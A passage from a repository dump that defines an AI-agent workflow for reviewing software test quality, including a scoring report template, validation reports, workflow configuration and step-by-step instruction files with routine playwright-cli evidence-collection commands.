- [ ] All checklist items completed
- [ ] All outputs validated and saved
- [ ] User notified with summary
- [ ] Review ready for developer consumption
- [ ] Follow-up actions identified (if any)

---

## Notes

Record any issues, observations, or important context during workflow execution:

- **Test Framework**: [Playwright, Jest, Cypress, etc.]
- **Review Scope**: [single file, directory, full suite]
- **Quality Score**: [0-100 score, letter grade]
- **Critical Issues**: [Count of P0/P1 violations]
- **Recommendation**: [Approve / Approve with comments / Request changes / Block]
- **Special Considerations**: [Legacy code, justified patterns, edge cases]
- **Follow-up Actions**: [Re-review after fixes, pair programming, etc.]
```

## File: `src/workflows/testarch/bmad-testarch-test-review/instructions.md`
```markdown
# Test Quality Review

**Workflow:** `bmad-testarch-test-review`
**Version:** 5.0 (Step-File Architecture)

---

## Overview

Review test quality using TEA knowledge base and produce a 0–100 quality score with actionable findings.

Coverage assessment is intentionally out of scope for this workflow. Use `trace` for requirements coverage and coverage gate decisions.

---

## WORKFLOW ARCHITECTURE

This workflow uses **step-file architecture**:

- **Micro-file Design**: Each step is self-contained
- **JIT Loading**: Only the current step file is in memory
- **Sequential Enforcement**: Execute steps in order

---

## INITIALIZATION SEQUENCE

### 1. Configuration Loading

From `workflow.yaml`, resolve:

- `config_source`, `test_artifacts`, `user_name`, `communication_language`, `document_output_language`, `date`
- `test_dir`, `review_scope`

### 2. First Step

Load, read completely, and execute:
`./steps-c/step-01-load-context.md`

### 3. Resume Support

If the user selects **Resume** mode, load, read completely, and execute:
`./steps-c/step-01b-resume.md`

This checks the output document for progress tracking frontmatter and routes to the next incomplete step.
```

## File: `src/workflows/testarch/bmad-testarch-test-review/test-review-template.md`
```markdown
---
stepsCompleted: []
lastStep: ''
lastSaved: ''
workflowType: 'testarch-test-review'
inputDocuments: []
---

# Test Quality Review: {test_filename}

**Quality Score**: {score}/100 ({grade} - {assessment})
**Review Date**: {YYYY-MM-DD}
**Review Scope**: {single | directory | suite}
**Reviewer**: {user_name or TEA Agent}

---

Note: This review audits existing tests; it does not generate tests.
Coverage mapping and coverage gates are out of scope here. Use `trace` for coverage decisions.

## Executive Summary

**Overall Assessment**: {Excellent | Good | Acceptable | Needs Improvement | Critical Issues}

**Recommendation**: {Approve | Approve with Comments | Request Changes | Block}

### Key Strengths

✅ {strength_1}
✅ {strength_2}
✅ {strength_3}

### Key Weaknesses

❌ {weakness_1}
❌ {weakness_2}
❌ {weakness_3}

### Summary

{1-2 paragraph summary of overall test quality, highlighting major findings and recommendation rationale}

---

## Quality Criteria Assessment

| Criterion                            | Status                          | Violations | Notes        |
| ------------------------------------ | ------------------------------- | ---------- | ------------ |
| BDD Format (Given-When-Then)         | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {count}    | {brief_note} |
| Test IDs                             | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {count}    | {brief_note} |
| Priority Markers (P0/P1/P2/P3)       | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {count}    | {brief_note} |
| Hard Waits (sleep, waitForTimeout)   | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {count}    | {brief_note} |
| Determinism (no conditionals)        | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {count}    | {brief_note} |
| Isolation (cleanup, no shared state) | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {count}    | {brief_note} |
| Fixture Patterns                     | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {count}    | {brief_note} |
| Data Factories                       | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {count}    | {brief_note} |
| Network-First Pattern                | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {count}    | {brief_note} |
| Explicit Assertions                  | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {count}    | {brief_note} |
| Test Length (≤300 lines)             | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {lines}    | {brief_note} |
| Test Duration (≤1.5 min)             | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {duration} | {brief_note} |
| Flakiness Patterns                   | {✅ PASS \| ⚠️ WARN \| ❌ FAIL} | {count}    | {brief_note} |

**Total Violations**: {critical_count} Critical, {high_count} High, {medium_count} Medium, {low_count} Low

---

## Quality Score Breakdown

```
Starting Score:          100
Critical Violations:     -{critical_count} × 10 = -{critical_deduction}
High Violations:         -{high_count} × 5 = -{high_deduction}
Medium Violations:       -{medium_count} × 2 = -{medium_deduction}
Low Violations:          -{low_count} × 1 = -{low_deduction}

Bonus Points:
  Excellent BDD:         +{0|5}
  Comprehensive Fixtures: +{0|5}
  Data Factories:        +{0|5}
  Network-First:         +{0|5}
  Perfect Isolation:     +{0|5}
  All Test IDs:          +{0|5}
                         --------
Total Bonus:             +{bonus_total}

Final Score:             {final_score}/100
Grade:                   {grade}
```

---

## Critical Issues (Must Fix)

{If no critical issues: "No critical issues detected. ✅"}

{For each critical issue:}

### {issue_number}. {Issue Title}

**Severity**: P0 (Critical)
**Location**: `{filename}:{line_number}`
**Criterion**: {criterion_name}
**Knowledge Base**: [{fragment_name}]({fragment_path})

**Issue Description**:
{Detailed explanation of what the problem is and why it's critical}

**Current Code**:

```typescript
// ❌ Bad (current implementation)
{
  code_snippet_showing_problem;
}
```

**Recommended Fix**:

```typescript
// ✅ Good (recommended approach)
{
  code_snippet_showing_solution;
}
```

**Why This Matters**:
{Explanation of impact - flakiness risk, maintainability, reliability}

**Related Violations**:
{If similar issue appears elsewhere, note line numbers}

---

## Recommendations (Should Fix)

{If no recommendations: "No additional recommendations. Test quality is excellent. ✅"}

{For each recommendation:}

### {rec_number}. {Recommendation Title}

**Severity**: {P1 (High) | P2 (Medium) | P3 (Low)}
**Location**: `{filename}:{line_number}`
**Criterion**: {criterion_name}
**Knowledge Base**: [{fragment_name}]({fragment_path})

**Issue Description**:
{Detailed explanation of what could be improved and why}

**Current Code**:

```typescript
// ⚠️ Could be improved (current implementation)
{
  code_snippet_showing_current_approach;
}
```

**Recommended Improvement**:

```typescript
// ✅ Better approach (recommended)
{
  code_snippet_showing_improvement;
}
```

**Benefits**:
{Explanation of benefits - maintainability, readability, reusability}

**Priority**:
{Why this is P1/P2/P3 - urgency and impact}

---

## Best Practices Found

{If good patterns found, highlight them}

{For each best practice:}

### {practice_number}. {Best Practice Title}

**Location**: `{filename}:{line_number}`
**Pattern**: {pattern_name}
**Knowledge Base**: [{fragment_name}]({fragment_path})

**Why This Is Good**:
{Explanation of why this pattern is excellent}

**Code Example**:

```typescript
// ✅ Excellent pattern demonstrated in this test
{
  code_snippet_showing_best_practice;
}
```

**Use as Reference**:
{Encourage using this pattern in other tests}

---

## Test File Analysis

### File Metadata

- **File Path**: `{relative_path_from_project_root}`
- **File Size**: {line_count} lines, {kb_size} KB
- **Test Framework**: {Playwright | Jest | Cypress | Vitest | Other}
- **Language**: {TypeScript | JavaScript}

### Test Structure

- **Describe Blocks**: {describe_count}
- **Test Cases (it/test)**: {test_count}
- **Average Test Length**: {avg_lines_per_test} lines per test
- **Fixtures Used**: {fixture_count} ({fixture_names})
- **Data Factories Used**: {factory_count} ({factory_names})

### Test Scope

- **Test IDs**: {test_id_list}
- **Priority Distribution**:
  - P0 (Critical): {p0_count} tests
  - P1 (High): {p1_count} tests
  - P2 (Medium): {p2_count} tests
  - P3 (Low): {p3_count} tests
  - Unknown: {unknown_count} tests

### Assertions Analysis

- **Total Assertions**: {assertion_count}
- **Assertions per Test**: {avg_assertions_per_test} (avg)
- **Assertion Types**: {assertion_types_used}

---

## Context and Integration

### Related Artifacts

{If story file found:}

- **Story File**: [{story_filename}]({story_path})

{If test-design found:}

- **Test Design**: [{test_design_filename}]({test_design_path})
- **Risk Assessment**: {risk_level}
- **Priority Framework**: P0-P3 applied

---

## Knowledge Base References

This review consulted the following knowledge base fragments:

- **[test-quality.md](../../../agents/bmad-tea/resources/knowledge/test-quality.md)** - Definition of Done for tests (no hard waits, <300 lines, <1.5 min, self-cleaning)
- **[fixture-architecture.md](../../../agents/bmad-tea/resources/knowledge/fixture-architecture.md)** - Pure function → Fixture → mergeTests pattern
- **[network-first.md](../../../agents/bmad-tea/resources/knowledge/network-first.md)** - Route intercept before navigate (race condition prevention)
- **[data-factories.md](../../../agents/bmad-tea/resources/knowledge/data-factories.md)** - Factory functions with overrides, API-first setup
- **[test-levels-framework.md](../../../agents/bmad-tea/resources/knowledge/test-levels-framework.md)** - E2E vs API vs Component vs Unit appropriateness
- **[component-tdd.md](../../../agents/bmad-tea/resources/knowledge/component-tdd.md)** - Red-Green-Refactor patterns
- **[selective-testing.md](../../../agents/bmad-tea/resources/knowledge/selective-testing.md)** - Duplicate coverage detection
- **[ci-burn-in.md](../../../agents/bmad-tea/resources/knowledge/ci-burn-in.md)** - Flakiness detection patterns (10-iteration loop)
- **[test-priorities-matrix.md](../../../agents/bmad-tea/resources/knowledge/test-priorities-matrix.md)** - P0/P1/P2/P3 classification framework

For coverage mapping, consult `trace` workflow outputs.

See [tea-index.csv](../../../agents/bmad-tea/resources/tea-index.csv) for complete knowledge base.

---

## Next Steps

### Immediate Actions (Before Merge)

1. **{action_1}** - {description}
   - Priority: {P0 | P1 | P2}
   - Owner: {team_or_person}
   - Estimated Effort: {time_estimate}

2. **{action_2}** - {description}
   - Priority: {P0 | P1 | P2}
   - Owner: {team_or_person}
   - Estimated Effort: {time_estimate}

### Follow-up Actions (Future PRs)

1. **{action_1}** - {description}
   - Priority: {P2 | P3}
   - Target: {next_milestone | backlog}

2. **{action_2}** - {description}
   - Priority: {P2 | P3}
   - Target: {next_milestone | backlog}

### Re-Review Needed?

{✅ No re-review needed - approve as-is}
{⚠️ Re-review after critical fixes - request changes, then re-review}
{❌ Major refactor required - block merge, pair programming recommended}

---

## Decision

**Recommendation**: {Approve | Approve with Comments | Request Changes | Block}

**Rationale**:
{1-2 paragraph explanation of recommendation based on findings}

**For Approve**:

> Test quality is excellent/good with {score}/100 score. {Minor issues noted can be addressed in follow-up PRs.} Tests are production-ready and follow best practices.

**For Approve with Comments**:

> Test quality is acceptable with {score}/100 score. {High-priority recommendations should be addressed but don't block merge.} Critical issues resolved, but improvements would enhance maintainability.

**For Request Changes**:

> Test quality needs improvement with {score}/100 score. {Critical issues must be fixed before merge.} {X} critical violations detected that pose flakiness/maintainability risks.

**For Block**:

> Test quality is insufficient with {score}/100 score. {Multiple critical issues make tests unsuitable for production.} Recommend pairing session with QA engineer to apply patterns from knowledge base.

---

## Appendix

### Violation Summary by Location

{Table of all violations sorted by line number:}

| Line   | Severity      | Criterion   | Issue         | Fix         |
| ------ | ------------- | ----------- | ------------- | ----------- |
| {line} | {P0/P1/P2/P3} | {criterion} | {brief_issue} | {brief_fix} |
| {line} | {P0/P1/P2/P3} | {criterion} | {brief_issue} | {brief_fix} |

### Quality Trends

{If reviewing same file multiple times, show trend:}

| Review Date  | Score         | Grade     | Critical Issues | Trend       |
| ------------ | ------------- | --------- | --------------- | ----------- |
| {YYYY-MM-DD} | {score_1}/100 | {grade_1} | {count_1}       | ⬆️ Improved |
| {YYYY-MM-DD} | {score_2}/100 | {grade_2} | {count_2}       | ⬇️ Declined |
| {YYYY-MM-DD} | {score_3}/100 | {grade_3} | {count_3}       | ➡️ Stable   |

### Related Reviews

{If reviewing multiple files in directory/suite:}

| File     | Score       | Grade   | Critical | Status             |
| -------- | ----------- | ------- | -------- | ------------------ |
| {file_1} | {score}/100 | {grade} | {count}  | {Approved/Blocked} |
| {file_2} | {score}/100 | {grade} | {count}  | {Approved/Blocked} |
| {file_3} | {score}/100 | {grade} | {count}  | {Approved/Blocked} |

**Suite Average**: {avg_score}/100 ({avg_grade})

---

## Review Metadata

**Generated By**: BMad TEA Agent (Test Architect)
**Workflow**: testarch-test-review v4.0
**Review ID**: test-review-{filename}-{YYYYMMDD}
**Timestamp**: {YYYY-MM-DD HH:MM:SS}
**Version**: 1.0

---

## Feedback on This Review

If you have questions or feedback on this review:

1. Review patterns in knowledge base: `../../../agents/bmad-tea/resources/knowledge/`
2. Consult tea-index.csv for detailed guidance
3. Request clarification on specific violations
4. Pair with QA engineer to apply patterns

This review is guidance, not rigid rules. Context matters - if a pattern is justified, document it with a comment.
```

## File: `src/workflows/testarch/bmad-testarch-test-review/validation-report-20260127-095021.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-test-review
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-test-review
validationStatus: COMPLETE
completionDate: 2026-01-27 10:03:10
---

# Validation Report: testarch-test-review

**Validation Started:** 2026-01-27 09:50:21
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 7

**Step File Sizes:**

- steps-c/step-01-load-context.md: 91 lines [GOOD]
- steps-c/step-02-discover-tests.md: 63 lines [GOOD]
- steps-c/step-03-quality-evaluation.md: 69 lines [GOOD]
- steps-c/step-04-generate-report.md: 65 lines [GOOD]
- steps-e/step-01-assess.md: 51 lines [GOOD]
- steps-e/step-02-apply-edit.md: 46 lines [GOOD]
- steps-v/step-01-validate.md: 53 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

- No {project-root} hardcoded paths detected in body
- No dead relative links detected

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- Last step steps-v/step-01-validate.md has no nextStepFile (final step OK)
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: test-review-template.md
- Steps with outputFile in frontmatter:
  - steps-c/step-04-generate-report.md
  - steps-v/step-01-validate.md

## Validation Design Check

- checklist.md present: YES
- Validation steps folder (steps-v) present: YES

## Instruction Style Check

- All steps include STEP GOAL, MANDATORY EXECUTION RULES, EXECUTION PROTOCOLS, CONTEXT BOUNDARIES, and SUCCESS/FAILURE metrics

## Summary

- Validation completed: 2026-01-27 10:03:10
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-test-review/validation-report-20260127-102401.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-test-review
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-test-review
validationStatus: COMPLETE
completionDate: 2026-01-27 10:24:01
---

# Validation Report: testarch-test-review

**Validation Started:** 2026-01-27 10:24:01
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 7

**Step File Sizes:**

- steps-c/step-01-load-context.md: 90 lines [GOOD]
- steps-c/step-02-discover-tests.md: 62 lines [GOOD]
- steps-c/step-03-quality-evaluation.md: 68 lines [GOOD]
- steps-c/step-04-generate-report.md: 64 lines [GOOD]
- steps-e/step-01-assess.md: 50 lines [GOOD]
- steps-e/step-02-apply-edit.md: 45 lines [GOOD]
- steps-v/step-01-validate.md: 52 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

### Config Variables (Exceptions)

Standard BMAD config variables treated as valid exceptions: bmb_creations_output_folder, communication_language, document_output_language, output_folder, planning_artifacts, project-root, project_name, test_artifacts, user_name

- No {project-root} hardcoded paths detected in body

- No dead relative links detected

- No module path assumptions detected

**Status:** ✅ PASS - No critical violations

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- steps-c/step-01-load-context.md: Init [PASS]
- steps-c/step-02-discover-tests.md: Middle [PASS]
- steps-c/step-03-quality-evaluation.md: Middle [PASS]
- steps-c/step-04-generate-report.md: Final [PASS]
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: test-review-template.md
- Steps with outputFile in frontmatter:
  - steps-c/step-04-generate-report.md
  - steps-v/step-01-validate.md
- checklist.md present: YES

## Validation Design Check

- Validation steps folder (steps-v) present: YES
- Validation step(s) present: step-01-validate.md
- Validation steps reference checklist data and auto-proceed

## Instruction Style Check

- Instruction style: Prescriptive (appropriate for TEA quality/compliance workflows)
- Steps emphasize mandatory sequence, explicit success/failure metrics, and risk-based guidance

## Collaborative Experience Check

- Overall facilitation quality: GOOD
- Steps use progressive prompts and clear role reinforcement; no laundry-list interrogation detected
- Flow progression is clear and aligned to workflow goals

## Subagent Optimization Opportunities

- No high-priority subagent optimizations identified; workflow already uses step-file architecture
- Pattern 1 (grep/regex): N/A for most steps
- Pattern 2 (per-file analysis): already aligned to validation structure
- Pattern 3 (data ops): minimal data file loads
- Pattern 4 (parallel): optional for validation only

## Cohesive Review

- Overall assessment: GOOD
- Flow is linear, goals are clear, and outputs map to TEA artifacts
- Voice and tone consistent with Test Architect persona
- Recommendation: READY (minor refinements optional)

## Plan Quality Validation

- Plan file present: workflow-plan.md
- Planned steps found: 7 (all implemented)
- Plan implementation status: Fully Implemented

## Summary

- Validation completed: 2026-01-27 10:24:01
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-test-review/workflow-plan.md`
```markdown
    # Workflow Plan: testarch-test-review

    ## Create Mode (steps-c)
    - step-01-load-context.md

- step-02-discover-tests.md
- step-03-quality-evaluation.md
- step-04-generate-report.md

  ## Validate Mode (steps-v)
  - step-01-validate.md

  ## Edit Mode (steps-e)
  - step-01-assess.md
  - step-02-apply-edit.md

  ## Outputs
  - {test_artifacts}/test-review.md
```

## File: `src/workflows/testarch/bmad-testarch-test-review/workflow.md`
```markdown
---
name: bmad-testarch-test-review
description: Review test quality using best practices validation. Use when user says 'lets review tests' or 'I want to evaluate test quality'
web_bundle: true
---

# Test Quality Review

**Goal:** Review test quality using comprehensive knowledge base and best practices validation

**Role:** You are the Master Test Architect.

---

## WORKFLOW ARCHITECTURE

This workflow uses **tri-modal step-file architecture**:

- **Create mode (steps-c/)**: primary execution flow
- **Validate mode (steps-v/)**: validation against checklist
- **Edit mode (steps-e/)**: revise existing outputs

---

## INITIALIZATION SEQUENCE

### 1. Mode Determination

"Welcome to the workflow. What would you like to do?"

- **[C] Create** — Run the workflow
- **[R] Resume** — Resume an interrupted workflow
- **[V] Validate** — Validate existing outputs
- **[E] Edit** — Edit existing outputs

### 2. Route to First Step

- **If C:** Load `steps-c/step-01-load-context.md`
- **If R:** Load `steps-c/step-01b-resume.md`
- **If V:** Load `steps-v/step-01-validate.md`
- **If E:** Load `steps-e/step-01-assess.md`
```

## File: `src/workflows/testarch/bmad-testarch-test-review/workflow.yaml`
```yaml
# Test Architect workflow: bmad-testarch-test-review
name: bmad-testarch-test-review
# prettier-ignore
description: 'Review test quality using best practices validation. Use when the user says "lets review tests" or "I want to evaluate test quality"'

# Critical variables from config
config_source: "{project-root}/_bmad/tea/config.yaml"
output_folder: "{config_source}:output_folder"
test_artifacts: "{config_source}:test_artifacts"
user_name: "{config_source}:user_name"
communication_language: "{config_source}:communication_language"
document_output_language: "{config_source}:document_output_language"
date: system-generated

# Workflow components
installed_path: "."
instructions: "./instructions.md"
validation: "./checklist.md"
template: "./test-review-template.md"

# Variables and inputs
variables:
  test_dir: "{project-root}/tests" # Root test directory
  review_scope: "single" # single (one file), directory (folder), suite (all tests)
  test_stack_type: "auto" # auto, frontend, backend, fullstack - from config or auto-detected

# Output configuration
default_output_file: "{test_artifacts}/test-review.md"

# Required tools
required_tools:
  - read_file # Read test files, story, test-design
  - write_file # Create review report
  - list_files # Discover test files in directory
  - search_repo # Find tests by patterns
  - glob # Find test files matching patterns

tags:
  - qa
  - test-architect
  - code-review
  - quality
  - best-practices

execution_hints:
  interactive: false # Minimize prompts
  autonomous: true # Proceed without user input unless blocked
  iterative: true # Can review multiple files
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-c/step-01-load-context.md`
```markdown
---
name: 'step-01-load-context'
description: 'Load knowledge base, determine scope, and gather context'
nextStepFile: './step-02-discover-tests.md'
knowledgeIndex: '{project-root}/_bmad/tea/agents/bmad-tea/resources/tea-index.csv'
outputFile: '{test_artifacts}/test-review.md'
---

# Step 1: Load Context & Knowledge Base

## STEP GOAL

Determine review scope, load required knowledge fragments, and gather related artifacts.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Determine Scope and Stack

Use `review_scope`:

- **single**: one file
- **directory**: all tests in folder
- **suite**: all tests in repo

If unclear, ask the user.

**Stack Detection** (for context-aware loading):

Read `test_stack_type` from `{config_source}`. If `"auto"` or not configured, infer `{detected_stack}` by scanning `{project-root}`:

- **Frontend indicators**: `playwright.config.*`, `cypress.config.*`, `package.json` with react/vue/angular
- **Backend indicators**: `pyproject.toml`, `pom.xml`/`build.gradle`, `go.mod`, `*.csproj`, `Gemfile`, `Cargo.toml`
- **Both present** → `fullstack`; only frontend → `frontend`; only backend → `backend`
- Explicit `test_stack_type` overrides auto-detection

---

### Tiered Knowledge Loading

Load fragments based on their `tier` classification in `tea-index.csv`:

1. **Core tier** (always load): Foundational fragments required for this workflow
2. **Extended tier** (load on-demand): Load when deeper analysis is needed or when the user's context requires it
3. **Specialized tier** (load only when relevant): Load only when the specific use case matches (e.g., contract-testing only for microservices, email-auth only for email flows)

> **Context Efficiency**: Loading only core fragments reduces context usage by 40-50% compared to loading all fragments.

### Playwright Utils Loading Profiles

**If `tea_use_playwright_utils` is enabled**, select the appropriate loading profile:

- **API-only profile** (when `{detected_stack}` is `backend` or no `page.goto`/`page.locator` found in test files):
  Load: `overview`, `api-request`, `auth-session`, `recurse` (~1,800 lines)

- **Full UI+API profile** (when `{detected_stack}` is `frontend`/`fullstack` or browser tests detected):
  Load: all Playwright Utils core fragments (~4,500 lines)

**Detection**: Scan `{test_dir}` for files containing `page.goto` or `page.locator`. If none found, use API-only profile.

### Pact.js Utils Loading

**If `tea_use_pactjs_utils` is enabled** (and contract tests detected in review scope):

Load: `pactjs-utils-overview.md`, `pactjs-utils-provider-verifier.md`, `pactjs-utils-request-filter.md` (the 3 most relevant for reviewing provider verification tests)

**If `tea_use_pactjs_utils` is disabled** but contract tests are in review scope:

Load: `contract-testing.md`

### Pact MCP Loading

**If `tea_pact_mcp` is `"mcp"`:**

Load: `pact-mcp.md` — enables agent to use SmartBear MCP "Review Pact Tests" tool for automated best-practice feedback during test review.

## 2. Load Knowledge Base

From `{knowledgeIndex}` load:

Read `{config_source}` and check `tea_use_playwright_utils`, `tea_use_pactjs_utils`, `tea_pact_mcp`, and `tea_browser_automation` to select the correct fragment set.

**Core:**

- `test-quality.md`
- `data-factories.md`
- `test-levels-framework.md`
- `selective-testing.md`
- `test-healing-patterns.md`
- `selector-resilience.md`
- `timing-debugging.md`

**If Playwright Utils enabled:**

- `overview.md`, `api-request.md`, `network-recorder.md`, `auth-session.md`, `intercept-network-call.md`, `recurse.md`, `log.md`, `file-utils.md`, `burn-in.md`, `network-error-monitor.md`, `fixtures-composition.md`

**If disabled:**

- `fixture-architecture.md`
- `network-first.md`
- `playwright-config.md`
- `component-tdd.md`
- `ci-burn-in.md`

**Playwright CLI (if `tea_browser_automation` is "cli" or "auto"):**

- `playwright-cli.md`

**MCP Patterns (if `tea_browser_automation` is "mcp" or "auto"):**

- (existing MCP-related fragments, if any are added in future)

**Pact.js Utils (if enabled and contract tests in review scope):**

- `pactjs-utils-overview.md`, `pactjs-utils-provider-verifier.md`, `pactjs-utils-request-filter.md`

**Contract Testing (if pactjs-utils disabled but contract tests in review scope):**

- `contract-testing.md`

**Pact MCP (if tea_pact_mcp is "mcp"):**

- `pact-mcp.md`

---

## 3. Gather Context Artifacts

If available:

- Story file (acceptance criteria)
- Test design doc (priorities)
- Framework config

Summarize what was found.

Coverage mapping and coverage gates are out of scope in `test-review`. Route those concerns to `trace`.

---

## 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-01-load-context']
  lastStep: 'step-01-load-context'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-01-load-context'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-01-load-context'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

**Update `inputDocuments`**: Set `inputDocuments` in the output template frontmatter to the list of artifact paths loaded in this step (e.g., knowledge fragments, test design documents, configuration files).

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-c/step-01b-resume.md`
```markdown
---
name: 'step-01b-resume'
description: 'Resume interrupted workflow from last completed step'
outputFile: '{test_artifacts}/test-review.md'
---

# Step 1b: Resume Workflow

## STEP GOAL

Resume an interrupted workflow by loading the existing output document, displaying progress, and routing to the next incomplete step.

## MANDATORY EXECUTION RULES

- Read the entire step file before acting
- Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- Follow the MANDATORY SEQUENCE exactly
- Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: Output document with progress frontmatter
- Focus: Load progress and route to next step
- Limits: Do not re-execute completed steps
- Dependencies: Output document must exist from a previous run

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Load Output Document

Read `{outputFile}` and parse YAML frontmatter for:

- `stepsCompleted` -- array of completed step names
- `lastStep` -- last completed step name
- `lastSaved` -- timestamp of last save

**If `{outputFile}` does not exist**, display:

"No previous progress found. There is no output document to resume from. Please use **[C] Create** to start a fresh workflow run."

**THEN:** Halt. Do not proceed.

---

### 2. Display Progress Dashboard

Display progress with checkmark/empty indicators:

```
Test Quality Review - Resume Progress:

1. Load Context (step-01-load-context)              [completed/pending]
2. Discover Tests (step-02-discover-tests)           [completed/pending]
3. Quality Evaluation + Aggregate (step-03f-aggregate-scores) [completed/pending]
4. Generate Report (step-04-generate-report)         [completed/pending]

Last saved: {lastSaved}
```

---

### 3. Route to Next Step

Based on `lastStep`, load the next incomplete step:

| lastStep                    | Next Step File                    |
| --------------------------- | --------------------------------- |
| `step-01-load-context`      | `./step-02-discover-tests.md`     |
| `step-02-discover-tests`    | `./step-03-quality-evaluation.md` |
| `step-03f-aggregate-scores` | `./step-04-generate-report.md`    |
| `step-04-generate-report`   | **Workflow already complete.**    |

**If `lastStep` is the final step** (`step-04-generate-report`), display: "All steps completed. Use **[C] Create** to start fresh, **[V] Validate** to review outputs, or **[E] Edit** to make revisions." Then halt.

**If `lastStep` does not match any value above**, display: "Unknown progress state (`lastStep`: {lastStep}). Please use **[C] Create** to start fresh." Then halt.

**Otherwise**, load the identified step file, read completely, and execute.

The existing content in `{outputFile}` provides context from previously completed steps.

---

## SYSTEM SUCCESS/FAILURE METRICS

### SUCCESS:

- Output document loaded and parsed correctly
- Progress dashboard displayed accurately
- Routed to correct next step

### FAILURE:

- Not loading output document
- Incorrect progress display
- Routing to wrong step

**Master Rule:** Resume MUST route to the exact next incomplete step. Never re-execute completed steps.
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-c/step-02-discover-tests.md`
```markdown
---
name: 'step-02-discover-tests'
description: 'Find and parse test files'
nextStepFile: './step-03-quality-evaluation.md'
outputFile: '{test_artifacts}/test-review.md'
---

# Step 2: Discover & Parse Tests

## STEP GOAL

Collect test files in scope and parse structure/metadata.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Discover Test Files

- **single**: use provided file path
- **directory**: glob under `{test_dir}` or selected folder
- **suite**: glob all tests in repo

Halt if no tests are found.

---

## 2. Parse Metadata (per file)

Collect:

- File size and line count
- Test framework detected
- Describe/test block counts
- Test IDs and priority markers
- Imports, fixtures, factories, network interception
- Waits/timeouts and control flow (if/try/catch)

---

## 3. Evidence Collection (if `tea_browser_automation` is `cli` or `auto`)

> **Fallback:** If CLI is not installed, fall back to MCP (if available) or skip evidence collection.

**CLI Evidence Collection:**
All commands use the same named session to target the correct browser:

1. `playwright-cli -s=tea-review open <target_url>`
2. `playwright-cli -s=tea-review tracing-start`
3. Execute the flow under review (using `-s=tea-review` on each command)
4. `playwright-cli -s=tea-review tracing-stop` → saves trace.zip
5. `playwright-cli -s=tea-review screenshot --filename={test_artifacts}/review-evidence.png`
6. `playwright-cli -s=tea-review network` → capture network request log
7. `playwright-cli -s=tea-review close`

> **Session Hygiene:** Always close sessions using `playwright-cli -s=tea-review close`. Do NOT use `close-all` — it kills every session on the machine and breaks parallel execution.

---

## 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

